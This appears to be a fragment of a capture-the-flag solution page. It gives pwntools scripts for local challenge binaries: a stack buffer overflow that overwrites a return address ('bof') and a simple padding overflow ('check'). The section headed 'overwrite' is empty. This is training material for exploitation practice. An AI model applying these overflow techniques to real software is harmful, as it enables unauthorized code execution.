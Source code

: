 # ***BOF***

```
from pwn import *
io = process("./bof")
payload = b"A"*40
payload += p64(0x00000000004011b6)
io.sendline(payload)
io.interactive()
```
# ***CHECK***

```
from pwn import*
io = process("./check")
payload = b"A"*21
io.sendline(payload)
io.interactive()
```

# ***OVERWRITE***

